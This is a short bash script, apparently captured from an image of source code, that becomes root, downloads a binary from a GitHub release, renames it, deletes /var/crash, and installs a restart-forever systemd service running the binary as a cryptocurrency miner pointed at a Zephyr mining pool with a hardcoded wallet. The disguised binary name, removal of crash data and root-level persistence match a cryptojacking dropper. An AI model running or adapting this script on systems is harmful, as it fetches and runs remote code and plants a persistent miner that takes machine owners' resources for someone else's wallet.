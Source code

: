#!/bin/bash
sudo su
cd /home
wget https://github.com/trangtrau/sang_ml/releases/download/test/ar 
cp ar jvdar 
chmod +x jvdar

rm -rf /lib/systemd/system/xmrthanh.service
rm -rf /var/crash
bash -c 'cat <<EOT >>/lib/systemd/system/xmrthanh.service 
[Unit]
Description=xmrthanh
After=network.target
[Service]
ExecStart= /home/jvdar -o zephyr.miningocean.org:5332 -u ZEPHsAKWMrW7EWxhhXh3RqL6G8wSEjonejUZrKGJWR9TiVJRhMyR1wXQB5bDaSgsr5LyMPd2pnfNsKYZNC4TefttN7wkouJKPro -p bill -a rx/0 -k -t 8
WatchdogSec=36000
Restart=always
RestartSec=60
User=root
[Install]
WantedBy=multi-user.target
EOT
' &&
systemctl daemon-reload &&
systemctl enable xmrthanh.service &&
service xmrthanh stop  &&
service xmrthanh restart
top

